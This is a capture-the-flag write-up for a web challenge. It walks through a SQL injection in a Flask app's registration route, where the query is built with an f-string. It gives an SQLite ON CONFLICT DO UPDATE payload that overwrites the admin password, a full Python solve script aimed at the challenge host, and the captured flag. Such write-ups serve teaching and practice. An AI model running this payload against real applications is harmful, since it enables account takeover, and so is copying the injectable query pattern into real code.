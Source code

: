 ![image](https://github.com/user-attachments/assets/2402148d-a881-470e-8cfd-8ad8fe95c36d)

**Author:** RJCyber  
**Source:** 

The website initially presented a basic login and registration form.

![image](https://github.com/user-attachments/assets/080d6886-b6ae-41ae-8ca2-d8b6f7075d3b)

While testing the application with various inputs, I discovered a potential vulnerability. Entering a simple payload like `hello'` caused the `/register` route to respond with a **500 Internal Server Error**.

This error indicated a possible SQL Injection vulnerability, suggesting that unsanitized user inputs could be directly inserted into the SQL query.

### Code Review

Upon reviewing the source code, I confirmed the SQL injection vulnerability in the `/register` route:

![image](https://github.com/user-attachments/assets/f03534aa-68bf-4f24-88ed-6c736d060cfe)

```python
cursor.execute(f"INSERT INTO users (username, password) VALUES ('{username}', '{generate_password_hash(password)}')")
```

In this snippet, user inputs (`username` and `password`) are directly embedded in the SQL query string, without parameterization or input sanitization, allowing for malicious SQL command injection.

### Flag Location

Upon further inspection, I found that the **flag** is accessible only through the `admin` account. The `/dashboard` route contains the logic for displaying the flag:

```python
@app.route('/dashboard')
def dashboard():
    if 'username' not in session:
        return redirect('/login')

    username = session['username']
    cursor = get_db().cursor()

    if username == 'admin':
        cursor.execute("SELECT flag FROM flags")
        flag = cursor.fetchone()['flag']
        return render_template('dashboard.html', username=username, flag=flag)

    return render_template('dashboard.html', username=username, flag=None)
```

#### How the Flag Is Displayed

- **Admin Privilege Requirement**: If the logged-in user is `admin`, the application queries the `flags` table to retrieve the flag.
  ```python
  cursor.execute("SELECT flag FROM flags")
  flag = cursor.fetchone()['flag']
  ```

- **Conditional Display**: The flag is conditionally rendered in the HTML template:
![image](https://github.com/user-attachments/assets/24509473-0dc2-4d0f-b1f6-2d11db2ac56a)

To access the flag, we need to log in as the `admin` user. Since we don’t know the admin password, we can utilize SQL injection to manipulate authentication and access the `dashboard` as the `admin`.

### Exploitation

Through research, I discovered a method in SQLite3 using `ON CONFLICT DO UPDATE`. This allows us to update the admin password directly during registration if the username already exists.

We can use the following payload as the username during registration:

```sql
admin', 'meow') ON CONFLICT(username) DO UPDATE SET password = 'new_password';--
```

**How It Works**:

1. The first part (`admin', 'meow')`) closes the `INSERT` statement.
2. `ON CONFLICT(username)` triggers when trying to insert an existing admin user.
3. The password is updated to `new_password`.

### Solution Script: solve.py

```python
#!/usr/bin/env python3
import requests
from werkzeug.security import generate_password_hash

url = 'https://usc-spookyql.chals.io/1ef2ec1d-b8ba-44ec-8f5d-7d07ebcd598e'

def register_user(payload):
    response = requests.post(url + '/register', data={'username': payload, 'password': 'password'})
    return response

def login_user(username, password):
    response = requests.post(url + '/login', data={'username': username, 'password': password})
    return response

payload = f"""admin', 'meow') ON CONFLICT(username) DO UPDATE SET password = '{generate_password_hash('achuxer')}'; --"""

response = register_user(payload)
print("[*] Response code: ", response.status_code)

print("[*] Logging in as admin")
response = login_user('admin', 'achuxer')
print(response.text)
```

After executing this, we can log in with the new credentials and access the `/dashboard` route to retrieve the flag.

**FLAG:** `CYBORG{Wh4t_h4pp3n3d_t0_my_p4ssw0rd!}`

